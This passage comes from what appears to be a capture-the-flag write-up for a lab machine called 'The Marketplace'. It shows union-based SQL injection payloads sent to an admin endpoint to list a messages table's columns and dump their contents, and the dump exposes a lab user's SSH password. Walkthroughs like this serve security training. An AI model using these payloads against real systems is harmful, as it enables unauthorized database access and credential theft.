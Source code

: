 	# Payload
	user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='messages'
	```
	![](theMarketplace sqli found columns in messages table.png)
	- Table: `messages`
		- is_read: 1 or 0
		- message_content: String
		- user_from: integer
		- user_to: integer
12. Determine values in columns of `messages` table
	```
	# SQLi Payload
	GET /admin?user=-1+UNION+SELECT+1,group_concat(user_to,':',message_content),3,4+FROM+messages
	
	# Payload
	-1 UNION+SELECT 1,group_concat(user_to,':',message_content),3,4 FROM messages
	
	# Use group_concat to append all message_content from all users into one single column value for display
	
	```
	![](theMarketplace sqli found value in columns in table messages.png)
	- Table `messages`
		- Column: user_to+message_content
			```
			User 3:Hello!
			An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
			Your new password is: @b_ENXkGYUCAv3zJ,

			4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,
			4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,
			4:Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,
			4:Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,
			4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,
			4:Thank you for your report. We have reviewed 
			```
	- User 3: Jake
		- jake:@b_ENXkGYUCAv3zJ
